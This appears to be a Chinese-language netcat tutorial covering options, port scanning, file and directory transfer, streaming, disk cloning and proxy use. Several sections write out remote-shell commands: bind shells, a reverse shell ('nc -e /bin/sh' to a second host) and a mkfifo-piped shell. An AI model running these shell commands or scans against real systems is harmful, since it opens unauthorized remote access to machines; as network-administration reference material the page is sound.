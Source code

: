 # netcat 网络工具中的瑞士军刀

+ netcat 是网络工具中的瑞士军刀, 它能通过TCP和UDP在网络中读写数据
+ 通过与其他工具结合和重定向, 你可以在脚本中以多种方式使用
+ netcat 所做的就是在两台电脑间建立连接并返回两个数据流
    + 你能建立一个服务器, 传输文件, 与朋友聊天, 传输流媒体或者用它作为其它协议的独立客户端

## 选项
```
-h, 查看帮助信息
-d, 后台模式
-e, prog程序重定向, 一旦连接就执行(危险)
-g <网关>, 设置路由器跃程通信网关, 最多可设置8个
-G <指向器数目>, 设置来源路由指向器, 其数值为4的倍数
-i <延迟秒数>, 设置时间间隔, 以便传送信息及扫描通信端口
-l, 使用监听模式, 监控传入的资料
-L, 监听模式, 连接关闭后仍然继续监听, 直到CTR+C
-n, 直接使用IP地址, 不使用DNS反向查询IP地址的域名
-o <输出文件>, 指定文件名称, 把往来传输的数据以16进制字码倾倒成该文件保存
-p <通信端口>, 设置本地主机使用的通信端口
-r, 乱数指定本地与远程主机的通信端口
-s <来源地址>, 设置本地主机送出数据包的IP地址
-t, 使用Telnet交互方式
-u, 使用UDP传输协议
-v, 详细输出, 用-vv将更详细
-w <超时秒数>, 设置等待连线的时间
-z, 使用0输入/输出模式, 连接成功后立即关闭连接, 只在扫描通信端口时使用
-q <秒数>, 接收到EOF后隔多长时间退出
```

## Usage

### 端口扫描
可以运行在TCP或者UDP模式, 默认是TCP, -u参数调整为UDP <br/>
```
nc -z -v -n -w 5 172.31.100.7 21-25
//这个命令会打印21到25所有开放的端口

nc -v 172.31.100.7 21
//一旦发现开放的端口, 使用netcat连接服务抓取banner
//Banner是一个你连接的服务发送给你的文本信息
//当你试图鉴别漏洞或者服务的类型和版本时, Banner信息非常有用
//但并不是所有服务都会发送Banner
```

### 正向连接
-c string, 连接后执行一条shell命令 <br/>
-e filename, 连接后运行一个文件 <br/>
Server(A机器:172.31.100.7) <br/>
```
nc -l -p 2222 -e /bin/sh //linux
nc -l -p 2222 -e cmd.exe //windows
```
Client(B机器:172.31.100.23) <br/>
```
nc 172.31.100.7 2222
```

### 反向连接
Server(A) <br/>
```
nc -vv -l -p 2222
```
Client(B) <br/>
```
nc -e /bin/sh 172.31.100.23 2222 //linux
nc -e cmd.exe 172.31.100.23 2222 //windows
```

### Chat Server
Server(A) <br/>
```
nc -l -p 1567
//netcat命令在1567端口启动了一个tcp服务器
//所有的标准输出和输入会输出到该端口, 输出和输入都在该shell中展示
```
Client(B) <br/>
```
nc 172.31.100.7 1567
//不管你在机器B上键入什么都会在机器A上
```

### 文件传输
Server(A) <br/>
```
nc -l -p 1567 < file.txt
```
Client(B) <br/>
```
nc -n 172.31.100.7 1567 > file.txt
//在A机器创建服务器并且重定向输入文件为file.txt
//当B机器连接到A, A发送文件内容, B保存文件内容到file.txt
```
Server(B) <br/>
```
nc -l -p 1567 > file.txt
```
Client(A) <br/>
```
nc 172.31.100.23 1567 < file.txt
//发送文件从A到B, 但是服务器创建在B上
```
### 目录传输
Server(A) <br/>
```
tar -cvf - dir_name | nc -l -p 1567
```
Client(B) <br/>
```
nc -n 172.31.100.7 1567 | tar -xvf -
//在A服务器上, 创建一个tar归档包并通过-在控制台重定向它
//然后使用管道, 重定向给netcat
//在客户端通过netcat下载归档包
```
Server(A) <br/>
```
tar -cvf - dir_name | bzip2 -z | nc -l -p 1567
```
Client(B) <br/>
```
nc -n 172.31.100.7 1567 | bzip2 -d | tar -xvf -
```

### 加密通过网络发送的数据
Server(A) <br/>
```
mcrypt --flush --bare -F -q -m ecb < file.txt | nc -l -p 1567
```
Client(B) <br/>
```
nc 172.31.100.7 1567 | mcrypt --flush --bare -F -q -d -m ecb > file.txt
```

### 流视频
Server(A) <br/>
```
cat video.avi | nc -l -p 1567
```
Client(B) <br/>
```
nc 172.31.100.7 1567 | mplayer -vo x11 --cache 3000 -
```

### 克隆一个设备
Server(A) <br/>
```
dd if=/dev/sda | nc -l -p 1567
```
Client(B) <br/>
```
nc 172.31.100.7 1567 | dd of=/dev/sda
```

### 手动使用SMTP协议通信
```
nc localhost 25 << EOF
HELO host.example.com
MAIL FROM: <user@host.example.com>
RCPT TO: <user2@host.example.com>
DATA
Body of email.
.
QUIT
EOF
```

### 通过代理服务器连接
```
nc -x10.2.3.4:8080 -Xconnect host.example.com 42
//使用10.2.3.4:8080这个代理服务器, 连接到host.example.com的42端口
```

### 使用Unix Domain Socket
```
nc -lU /var/tmp/dsocket
//建立一个Unix Domain Socket, 并接收资料
```


## 高级用法

### 不停监听模式(有的nc命令是-k参数)
···
nc -L -p 80 > logs.txt //开启并不停的监听80端口, 直到CTR+C, 同时把结果输出到logs.txt
nc -L -p 80 < files.txt //同时把files.txt文件内容送入管道中
···

### 特殊打开shell方式
Server(A) <br/>
```
mkfifo /tmp/tmp_fifo  //创建fifo文件
cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l -p 1567 > /tmp/tmp_fifo
//从网络收到的输入写入到fifo文件中
//cat命令读取fifo文件并将其内容发给sh命令
//sh命令进程收到输入并把它写回到netcat
//netcat通过网络发送输出到client
//(管道命令平行执行, fifo文件用来替代正常文件, 因为fifo使读取等待,
//如果是一个普通文件, cat命令会尽快结束并开始读取空文件)
```
Client(B) <br/>
```
nc -n 172.31.100.7 1567
```
在客户端会有一个shell提示符 <br/>

### 其他用途
<pre>
1. 使用-t选项模拟Telnet客户端
2. HTTP客户端用于下载文件
3. 连接邮件服务器, 使用SMTP协议检查邮件
4. 使用ffmpeg截取屏幕并通过流式传输分享
只要你了解协议就可以使用netcat作为网络通讯媒介, 实现各种客户端
</pre>

### Remarks
<pre>
cmd编码支持utf-8, chcp命令
chcp  //查看当前编码, 默认为936(GB2312)
chcp 65001  //切换为UTF-8, 活动代码页为65001
</pre>
